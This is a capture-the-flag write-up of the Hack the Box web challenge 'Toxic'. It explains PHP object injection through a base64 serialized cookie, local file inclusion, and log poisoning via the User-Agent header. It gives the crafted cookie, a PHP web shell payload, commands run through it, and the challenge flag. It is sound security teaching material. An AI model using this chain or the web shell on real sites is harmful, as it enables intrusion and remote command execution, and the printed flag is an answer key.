





# Writeup "Toxic"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                            </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/challenges/toxic              </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-toxic-discussion </td></tr>
   <tr><td><b> type       </b></td><td> challenge/web                                           </td></tr>
   <tr><td><b> difficulty </b></td><td> easy                                                    </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-08-10                                              </td></tr>
   <tr><td><b> enddate    </b></td><td> 2022-08-11                                              </td></tr>
</table>

## Description

> Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸

## Solution

We receive an IP and port to a server and a zip file containing the _PHP_ application deployed on the server. The application displays a web page about dart frogs; as mentioned in the challenge description, there is no user input on the page.

<p align="center">
   
</p>

Looking through the file `Dockerfile`, we see that the application lies in the `/www` directory and the flag lies in the root directory. Also, the bash script `entrypoint.sh` is called when the application is set up, so we take a look at this file, as well. In `entrypoint.sh`, we find the following lines:

``` bash
# Generate random flag filename
mv /flag /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`
```

This appends an underscore and five random characters to `flag`, so the new filename will look like e.g. `flag_TJ9ai` or `flag_xQszw`. This will make it harder to get to the flag, because we have to find out the correct file name before accessing the file.

Continuing our review of the source code, we find some dubious code in the file `index.php`:

``` php
if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
```

First, the code checks if there is a cookie set. If there is none, a new `PageModel` object is created. Then, the cookie is read and unserialized[^2] without any checks or sanitation of what can effectively be considered a user input. This allows an attack _"PHP Object Injection"_[^3][^4]. Let's take a look at the definition of the `PageModel` class:

``` php
class PageModel
{
    public $file;

    public function __destruct() 
    {
        include($this->file);
    }
}
```

`__destruct` is a _"PHP magic method"_ which is called automatically when an object is destroyed[^1]. Since the object is unserialized in `index.php` without assigning it to a variable, this method is called immediately.

In this case, the `__destruct` method includes the file specified in the member variable `$file`. Again, this is done without any sanitation which allows the user to alter the cookie and therefore the file which is included by the website. This is called a _File Inclusion_ attack[^5].

However, we do not know the file name of the flag; therefore, this is not yet enough. We need a way to look through the file system and obtain the new flag file name. First, we try to use the vulnerability to perform a _Remote File Inclusion_ (RFI) attack. As a test, we create the following PHP file and host it using the command `python -m http.server`:

```php
<?php echo shell_exec("whoami"); ?>
```

This does not work, however. Apparently, only a _Local File Inclusion_ (LFI) is possible. A web search for _"php lfi rce"_ leads us to a page describing how to use a LFI to perform a _Remote Code Execution_ (RCE) by using a technique called _"Log Poisoning"_[^6]. In a nutshell, we have to perform the following steps:
1. Find a log file where we can influence the content;
2. inject our PHP code into the log file;
3. include the log file in the website using the LFI vulnerability.

From the Dockerfile we know that the web server runs NGINX so we do a web search for _"nginx log path"_. This tells us that the standard location for the access log file is `/var/log/nginx/access.log`. Using the following commands, we create and encode a custom object for the cookie:

``` php
$o = new PageModel;
$o->file = "/var/log/nginx/access.log";
$c = serialize($o);
$c = base64_encode($c);
print $c;

Output: "Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ=="
```

The cookie's value is replaced using the Firefox developer tools and the web site shows the contents of the log file:

<p align="center">
   
</p>

Now we need a way of injecting our PHP code into the log file. Since we can see that the log file contains the `User-Agent` string of all received HTTP requests, we decide to use this field for the injection. As payload we choose the following line:

``` php
<?php echo shell_exec($_GET['cmd']); ?>
```

This will execute any command that is passed to the page via the GET parameter `cmd`. We replace the `User-Agent` string using the Firefox developer tools again by right-clicking on the last GET request and choosing _"Edit and Resend"_:

<p align="center">
   
</p>

Success! By setting the `get` parameter, we can pass various shell commands to the server. First, let's find out the name of the flag file using the command `ls /`:

<p align="center">
   
</p>

So the file name is `flag_bHZeW`. Just one more step in order to get the flag itself using the command `cat /flag_bHZeW`:

<p align="center">
   
</p>

There we go!

```
HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}
```

### Sources

[^1]: https://www.php.net/manual/en/language.oop5.magic.php
[^2]: https://www.php.net/manual/de/function.unserialize.php
[^3]: https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection
[^4]: https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a
[^5]: https://www.webmaster-tipps.de/php-sicherheit-local-file-inclusion-und-remote-file-inclusion/
[^6]: https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1
